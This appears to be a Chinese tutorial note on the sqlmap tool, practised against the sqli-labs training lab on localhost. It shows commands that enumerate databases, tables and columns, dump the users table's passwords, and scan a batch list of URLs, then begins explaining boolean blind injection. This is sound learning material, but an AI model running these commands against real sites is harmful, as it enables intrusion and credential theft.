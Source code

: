 ### sqlmap参数详解

sqlmap -hh 

基本用法： sqlmap.py -u "localhost/school/url.php?id=1"  #地址

### sqli-labs

sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" --current-db

#--current-db拿到当前链接使用的库名

sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" --level=5 --risk=3 --dbs 

#--dbs获取全部的库名 

 ##--level=5 如果它的级别越高他发送的payload就越高默认是1，并不是越高越好，太多防火墙之类的会禁掉ip

##--risk=3执行的一个风险系数范围是1~3，如果级别越高它会默认用更高级的语句，默认也是1

sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" --level=5 --risk=3 -- dbms=mysql -D "security" --tables

#拿security这个库里的所有的表名

![image-20220428232110512](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182157945-333693184.png)

sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" --level=5 --risk=3 -- dbms=mysql -D "security" -T "users" --col 

![image-20220428232243328](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182158390-88579116.png)

#"users" --col 拿users列名所有的字段  "security" -T指定表名

sqlmap -u "http://localhost/sqli-labs/Less-1/?id=1" --level=5 --risk=3 -- dbms=mysql -D "security" -T "users" -C "password,username" --dump

![image-20220428232048178](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182159172-1281876780.png)

如果一堆网址的话

建立一个txt文本，把网址弄进去

sqlmap -m d:/18url.txt --batch

### 布尔盲注

基于布尔的盲注

![image-20220428233745417](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182159579-667332643.png)

适用场景：没有数据回显，条件正确有结果，错误没结果 

利用方式：构造判断条件(and)，逐个猜测（盲猜

思路：

1、当前数据库名字的长度，是不是1,2,3,4，。。。8位
